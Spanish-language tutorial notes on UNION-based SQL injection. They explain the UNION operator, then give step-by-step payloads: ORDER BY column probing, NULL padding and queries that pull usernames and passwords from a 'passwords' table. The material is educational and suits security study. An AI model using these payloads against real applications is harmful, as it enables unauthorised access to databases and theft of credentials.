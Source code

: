 ### Inyección SQL basada en `UNION`

---

#### **El operador `UNION`**

`UNION` permite combinar los resultados de múltiples consultas `SELECT` en una sola. Esto es útil para realizar **inyecciones SQL Union**, ya que permite extraer datos de diferentes tablas y bases de datos.

---

### **Funcionamiento del operador `UNION`**

1. Combina las filas de las consultas `SELECT`.
2. Las columnas de ambas consultas deben tener:
    - **El mismo número** de columnas.
    - **Tipos de datos compatibles** en cada columna.

#### **Ejemplo de uso básico**

Tabla `ports`:

```sql
SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

Tabla `ships`:

```sql
SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
```

Combinando con `UNION`:

```sql
SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

---

### **Requisitos del operador `UNION`**

1. **Mismo número de columnas**
    
    - Si las consultas tienen un número diferente de columnas, se producirá un error:
        
        ```sql
        SELECT city FROM ports UNION SELECT * FROM ships;
        ```
        
        **Error**: `The used SELECT statements have a different number of columns`.
2. **Tipos de datos compatibles**
    
    - Los tipos de datos de las columnas correspondientes deben coincidir o ser compatibles.

---

### **Inyección SQL con `UNION`**

**Ejemplo básico de inyección** Si la consulta original es:

```sql
SELECT * FROM products WHERE product_id = 'user_input';
```

Podemos inyectar:

```sql
' UNION SELECT username, password FROM passwords-- 
```

Resultado:

```sql
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, password FROM passwords-- '
```

Esto devuelve datos de las tablas `products` y `passwords`.

---

#### **Columnas desiguales**

Cuando las tablas tienen diferentes números de columnas, se pueden usar "datos basura" (junk data) o `NULL` para completar las columnas faltantes.

**Ejemplo**: Si la tabla original tiene **4 columnas**, pero queremos extraer solo el `username` de otra tabla, podemos completar las columnas restantes con números o `NULL`:

```sql
' UNION SELECT username, 2, 3, 4 FROM passwords-- 
```

Resultado:

```sql
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, 2, 3, 4 FROM passwords-- '
```

Salida:

```sql
+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

---

### **Uso de `NULL` para evitar errores de tipos de datos**

Cuando no sabemos el tipo de datos de las columnas originales, es preferible usar `NULL`, ya que es compatible con todos los tipos de datos.

**Ejemplo**:

```sql
' UNION SELECT username, NULL, NULL, NULL FROM passwords-- 
```

---

### **Pasos para realizar una inyección SQL basada en `UNION`**

1. **Descubrir el número de columnas**:
    
    - Inyectar un `ORDER BY` en la consulta original hasta que se produzca un error.
    - Ejemplo:
        
        ```sql
        ' ORDER BY 1-- 
        ' ORDER BY 2-- 
        ```
        
2. **Determinar los tipos de datos**:
    
    - Inyectar valores como `NULL`, números o cadenas y ajustar según los errores.
    - Ejemplo:
        
        ```sql
        ' UNION SELECT NULL, NULL, NULL-- 
        ```
        
3. **Extraer datos deseados**:
    
    - Una vez que se conoce el número de columnas y sus tipos, inyectar una consulta `UNION` válid
    - Ejemplo:
        
        ```sql
        ' UNION SELECT username, password, NULL FROM passwords-- 
        ```
        

---

### **Ejemplo completo de inyección SQL**

Consulta original:

```sql
SELECT * FROM users WHERE id = 'user_input';
```

Payload de inyección:

```sql
' UNION SELECT username, password, NULL FROM passwords-- 
```

Consulta final:

```sql
SELECT * FROM users WHERE id = '' UNION SELECT username, password, NULL FROM passwords-- 
```

---

### **Resumen**

- **`UNION`** permite combinar resultados de varias consultas `SELECT`.
- Asegúrate de que ambas consultas tengan:
    - **El mismo número de columnas**.
    - **Tipos de datos compatibles**.
- Usa `NULL` o datos basura (`1, 'junk'`) para completar columnas faltantes.
- Descubre columnas y tipos de datos mediante `ORDER BY` y pruebas iterativas.

Esto te permitirá extraer datos sensibles de otras tablas mediante inyecciones SQL basadas en `UNION`.